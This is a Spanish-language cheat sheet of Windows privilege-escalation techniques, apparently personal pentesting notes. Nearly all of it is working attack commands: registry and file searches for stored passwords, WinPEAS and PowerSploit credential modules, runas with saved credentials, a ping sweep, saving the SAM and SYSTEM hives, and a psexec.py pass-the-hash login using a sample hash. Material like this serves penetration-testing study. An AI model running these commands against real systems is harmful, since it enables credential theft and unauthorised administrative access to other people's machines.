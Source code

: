 # Formas tipicas de escalar privilegios para Windows

- WinPEAS
- PowerSploit
- Save Creds
- Sam y System
- Archivos de Configuracion
- Registro

# - Registro
```powershell
reg query HKLM /f password /t REG_SZ /s

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```
Para contraseñas en Putty
```powershell
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```
# WinPEAS
```powershell
winPEAS.exe quiet filesinfo userinfo
winPEAS.exe quiet windowscreds
winPEAS.exe quiet searchfast filesinfo
```

# PowerSploit
Estos son sus modulos a probar
```powershell
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-CachedGPPPassword
Get-RegistryAutoLogon
``` 
# Credenciales Guardadas
```cmd
cmdkey /list
``` 
Runas --> en Caso de Tener credenciales guardadas de otro usuario podriamos ejecutar acciones o binarios
```powershell
runas /savecred /user:<usuario> <ejecutable> 
```

# Script para enumerar Otras interfaces
```cmd
for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.
```

# Archivos de Configuracion
Buscando por archivos que contengan la palabra pass o extension .config
```cmd
dir /s *pass* == *.config
```
Buscando por archivos que contengan la palabra password y acaben por la extension .xml
```cmd
findstr /si password *.xml *.ini
```
- Modulo de Metasploit para buscar por password recursivamente
post/windows/gather/enum_unattend

# Sam y System
Los archivos SAM y SYSTEM, se almacenan en el directorio:
```cmd
C:\Windows\System32\config
```
Buscando por Backups de Sam y System
```cmd
C:\Windows\Repair
C:\Windows\System32\config\RegBack
```
Si los hubiesemos encontrado o tuviesemos privilegios para realizar una copia de los mismos
```
reg save HKLM\SAM SAM.backup
reg save HKLM\SYSTEM SYSTEM.backup
```

```
psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:f58b86e89c8631e432cf1a034662853f' WORKGROUP/administrator@10.11.1.31 cmd
```

